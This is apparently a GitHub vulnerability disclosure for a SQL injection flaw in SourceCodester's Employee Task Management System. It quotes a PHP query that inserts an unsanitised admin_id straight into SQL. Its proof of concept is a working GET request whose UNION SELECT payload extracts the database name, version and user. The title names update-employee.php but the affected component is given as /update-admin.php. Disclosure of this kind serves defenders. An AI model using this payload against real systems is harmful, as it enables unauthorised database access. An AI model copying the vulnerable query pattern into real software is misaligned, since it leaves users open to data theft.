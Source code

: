# SOURCECODESTER / Employee Task Management System - SQL Injection update-employee.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)

## Vendor Homepage:
> https://www.sourcecodester.com/php/17217/employee-management-system-php-and-mysql-free-download.html

## Affected Component
> /update-admin.php

## Code
```php
$sql = "SELECT * FROM tbl_admin WHERE user_id='$admin_id' ";
$info = $obj_admin->manage_all_info($sql);
$row = $info->fetch(PDO::FETCH_ASSOC);
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /update-employee.php?admin_id='%20union%20select%201%2cconcat('Database%20Name%3a%20'%2cdatabase())%2cconcat('Database%20Version%3a%20'%2cversion())%2cconcat('Database%20User%3a%20'%2cuser())%2c5%2c6%2c7%20--%20- HTTP/1.1
Host: 127.0.0.1
Research-By: NoChizPlz
```

## Screenshot
![img.png](SQL%20Injection%20-%20update-employee%2Fimg.png)


